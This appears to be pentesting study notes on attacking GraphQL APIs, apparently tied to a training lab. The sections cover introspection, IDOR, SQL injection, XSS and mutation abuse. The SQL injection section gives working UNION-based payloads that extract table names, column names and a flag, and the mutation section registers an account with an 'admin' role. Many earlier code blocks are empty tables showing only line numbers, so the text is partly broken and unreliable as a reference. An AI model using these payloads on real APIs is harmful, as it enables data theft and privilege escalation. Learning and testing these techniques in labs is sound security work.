

Attacking GraphQL
Basic Examples
GraphQL Request
| JSON | |
|---|---|
1 2 3 4 5 6 7 | |
GraphQL Response
| JSON | |
|---|---|
1 2 3 4 5 6 7 8 | |
Introspection Queries
Introspection is a GraphQL feature that enables users to query the GraphQL API about the structure of the backend system.
GraphQL Types
| JSON | |
|---|---|
1 2 3 4 5 6 7 | |
GraphQL Queries
| JSON | |
|---|---|
1 2 3 4 5 6 7 8 9 10 | |
General Introspection
| JSON | |
|---|---|
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 | |
Batching Example
| JSON | |
|---|---|
1 2 3 4 5 6 7 8 | |
Mutation Example
| JSON | |
|---|---|
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 | |
Tools
- graphw00f – GraphQL endpoint fingerprinting
- graphql-voyager – Visual schema explorer
- GraphQL-Cop – Security testing tool
- InQL – Burp Suite extension for GraphQL
- GraphQL Threat Matrix
graphw00f
| Bash | |
|---|---|
1 2 3 | |
Insecure Direct Object Reference (IDOR)
Identifying IDOR
Replace a query value with another we know exist:

Exploiting IDOR
Replace query with introspection query to determine what data can be accessed (escape quotation marks on the below query)
| JSON | |
|---|---|
1 2 3 4 5 6 7 8 9 10 11 12 | |
Adjust query to test if previously determined data fields are accessible
| JSON | |
|---|---|
1 2 3 4 5 6 | |
Injection Attacks
SQL Injection
- Use introspection to identify what queries requiring arguments the backend supports
- Sending queries without arguments to see if error message is returned
- Try basic SQLi in the argument:
JSON 1 2 3 4 5 6
{ user(username: "test' -- -") { username password } } - or:
JSON 1 2 3 4 5 6
{ user(username: "test'") { username password } } - use results of introspection query to craft UNION-based SQLi:

JSON 1 2 3 4 5
{ user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") { username } }JSON 1{"query":"{ user(username: \"student' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6 FROM information_schema.columns WHERE table_name='flag'-- -\") { username }}"}JSON 1{"query":"{ user(username: \"student' UNION SELECT 1,2,flag,4,5,6 FROM flag-- -\") { username }}"}
Cross-Site Scripting (XSS)
XSS vulnerabilities can occur if: - GraphQL responses are inserted into the HTML page without proper sanitization - if invalid arguments are reflected in error messages
Mutations
- Identify all mutations
JSON 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50
query { __schema { mutationType { name fields { name args { name defaultValue type { ...TypeRef } } } } } } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } } } - Query fields of required inputs from results of above
JSON 1 2 3 4 5 6 7 8 9 10
{ __type(name: "RegisterUserInput") { name inputFields { name description defaultValue } } } - Test if escalation available
JSON 1 2 3 4 5 6 7 8 9 10
mutation { registerUser(input: {username: "vautiaAdmin", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "admin", msg: "Hacked!"}) { user { username password msg role } } }